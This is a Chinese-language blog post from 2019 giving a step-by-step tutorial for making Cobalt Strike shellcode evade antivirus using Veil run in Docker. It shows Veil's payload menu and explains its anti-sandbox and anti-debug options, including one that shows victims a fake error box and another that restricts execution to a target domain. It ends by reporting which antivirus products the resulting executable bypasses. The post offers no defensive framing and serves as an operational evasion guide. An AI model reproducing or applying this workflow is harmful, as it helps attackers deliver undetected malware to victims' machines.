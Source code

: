 ﻿---
layout: post
title: 免杀：结合veillCS shellcode免杀
date: 2019-10-06
categories: blog
tags: [免杀，shellcode]
description: 结合veillCS shellcode免杀
---

#### 一、CS生成shellcode
攻击-生成后门-payload generator-选veil
![](https://upload-images.jianshu.io/upload_images/15634342-b3f4963cc1ffcf03.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 二、安装veil
- 安装`docker pull mattiasohlsson/veil`
- 启动`docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil`
- 生成的exe文件在/tmp/veil-output，之后在这取

#### 三、veil免杀
```
[*] Available Tools:
    1)  Evasion
    2)  Ordnance
use 1

[*] Available Payloads:

    1)  autoit/shellcode_inject/flat.py

    2)  auxiliary/coldwar_wrapper.py
    3)  auxiliary/macro_converter.py
    4)  auxiliary/pyinstaller_wrapper.py

    5)  c/meterpreter/rev_http.py
    6)  c/meterpreter/rev_http_service.py
    7)  c/meterpreter/rev_tcp.py
    8)  c/meterpreter/rev_tcp_service.py

    9)  cs/meterpreter/rev_http.py
    10) cs/meterpreter/rev_https.py
    11) cs/meterpreter/rev_tcp.py
    12) cs/shellcode_inject/base64.py
    13) cs/shellcode_inject/virtual.py

    14) go/meterpreter/rev_http.py
    15) go/meterpreter/rev_https.py
    16) go/meterpreter/rev_tcp.py
    17) go/shellcode_inject/virtual.py

    18) lua/shellcode_inject/flat.py

    19) perl/shellcode_inject/flat.py

>use 17
```

```
BADMACS 设置为Y表示 查看运行环境的MAC地址如果不是虚拟机才会执行payload （反调试）
CLICKTRACK 设置为4表示 表示需要4次点击才会执行
CURSORCHECK 设置为100表示 运行环境的硬盘大小如果大于100GB才会执行payload （反沙箱）
COMPILE_TO_EXE 设置为Y表示 编译为exe文件
HOSTNAME 设置为Comp1表示 只有在Hostname计算机名为Comp1时才会执行payload（指定目标环境 反沙箱的方式）
INJECT_METHOD 可设置为Virtual 或 Heap
MINPROCS 设置为20表示 只有运行环境的运行进程数大于20时才会执行payload（指定目标环境 反沙箱的方式）
PROCCHECK 设置为Y表示 只有运行环境的进程中没有虚拟机进程时才会执行payload（指定目标环境 反沙箱的方式）
PROCESSORS 设置为2表示 只在至少2核的机器中才会执行payload（指定目标环境 反沙箱的方式）
RAMCHECK 设置为Y表示 只在运行环境的内存为3G以上时才会执行payload（指定目标环境 反沙箱的方式）
SLEEP 设置为10表示 休眠10秒 以检测是否运行过程中被加速（反沙箱）
USERNAME 设置为Tom表示 只有在当前用户名为Tom的机器中才执行payload。
USERPROMPT 设置为Y表示 在injection之前提醒用户（提示一个错误框，让用户误以为该程序执行错误才无法打开）
DEBUGGER 设置为Y表示 当被调试器不被attached时才会执行payload （反调试）
DOMAIN 设置为Comp表示 受害者计算机只有加入Comp域中时，才会执行payload（指定目标环境 反沙箱的方式）
UTCCHECK 设置为Y表示 只在运行环境的系统使用UTC时间时，才会执行payload
```
- set 都是可选的，都为了绕过，不选也行

- generate(生成)

- 复制CS生成的payload.txt内容，到这个位置
![](https://upload-images.jianshu.io/upload_images/15634342-8d4ac6f9c786149a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 输入文件名

- 去这找生成的exe文件，/tmp/veil-output
#### 四、结论
win7：随便过
win10：此种免杀可以过360、火绒、qq管家等杀软，但是过不了windwos defender？？，然而安装了360、火绒、qq管家等杀软会把win10的defender挤掉，所以也能过？？
10月6日复测，最新的数字卫士已经能检测出来了















